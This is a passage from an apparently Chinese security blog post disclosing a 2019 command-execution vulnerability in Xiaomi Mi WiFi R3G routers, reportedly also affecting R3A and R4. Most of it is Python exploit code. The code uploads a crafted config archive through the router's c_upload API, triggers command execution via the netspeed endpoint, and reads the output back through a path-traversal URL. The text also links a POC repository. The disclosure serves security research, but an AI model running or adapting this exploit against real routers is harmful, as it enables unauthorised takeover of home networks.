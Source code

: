 ```
with tarfile.open("payload.tar.gz", "w:gz") as tar:
    
    
    tar.add("speedtest_urls.xml")


print("start uploading config file ...")
r1 = requests.post("http://192.168.31.1/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)



print("start exec command...")
r2 = requests.get("http://192.168.31.1/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)



r3 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
    print("success, vul")
    print(r3.text)

```

![](https://ultramangaia.github.io/img/xiaomi/4.png)

本次测试使用的是 ROM for R3G 最新版固件进行漏洞挖掘，实现了后台登录和命令执行。经测试，在 R3A 最新版和 R4 最新版上成功命令执行，判断为系列型漏洞，影响范围较广。（时间：2019-03-09）

[POC](https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC)

转载请注明来源，欢迎对文章中的引用来源进行考证，欢迎指出任何有错误或不够清晰的表达。可以在下面评论区评论，也可以邮件至 3213359017@qq.com